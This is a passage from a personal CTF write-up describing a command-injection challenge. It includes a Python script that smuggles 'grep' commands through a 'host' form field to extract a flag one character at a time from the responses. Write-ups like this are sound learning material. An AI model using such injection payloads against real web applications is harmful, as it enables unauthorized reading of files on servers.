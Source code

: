 And here was the output:

![Availability 3](https://raw.githubusercontent.com/Glitch-Gecko/glitch-gecko.github.io/main/images/Availability4.png)

This means that the flag ends with the sequence 'bf60'

Knowing this, I can use the exact same script, but looking for letters starting from the end and working backwords.

Here was the script I used:

```python
import requests
flag = 'bf60'
characters = 'abcdfgl124567890'

for i in range(28):
    for char in characters:
        payload = """
        grep {letter} "flag.txt"
        """.format(letter=char+flag)
        print(flag, char)
        r = requests.post('http://challenge.ctf.games:31862/', data={'host':payload})
        if 'Success' in r.text:
            flag=char+flag
            break
print(flag)
```

And here was the output:

![Availability 3](https://raw.githubusercontent.com/Glitch-Gecko/glitch-gecko.github.io/main/images/Availability6.png)

And that was the correct flag!


# Final thoughts

Overall I had a blast and really enjoyed the CTF, and I'm glad I decided to try it out. Big thanks to Ryan (An00bRektn) for helping me out and introducing me to the CTF, and for giving me the idea to make my own writeups! Check out his write ups [here](https://an00brektn.github.io/).

I'm definitely looking forward to the next one!

![Congrats!](https://raw.githubusercontent.com/Glitch-Gecko/glitch-gecko.github.io/main/images/Hacktivity.png)

[Back to Home Page](https://glitch-gecko.github.io)
